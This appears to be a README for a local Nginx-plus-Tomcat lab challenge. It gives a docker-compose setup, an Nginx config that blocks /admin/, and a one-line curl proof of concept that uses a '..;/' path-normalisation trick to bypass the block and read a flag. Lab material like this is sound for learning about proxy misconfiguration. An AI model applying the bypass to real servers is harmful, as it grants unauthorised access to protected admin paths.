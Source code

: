 ### Nginx + Tomcat

Try to access http://backend:8080/admin/flag


### Usage
Build and run
```
docker-compose up
```

Go http://127.0.0.1:8081/


### Hint
Nginx default.conf
```
location / {
    proxy_pass	http://backend:8080/;
}

location ^~ /admin/ {
    deny all;
    return 403;
}
```

### POC
``` bash
curl --path-as-is 'http://127.0.0.1:8081/..;/console;/flag'
```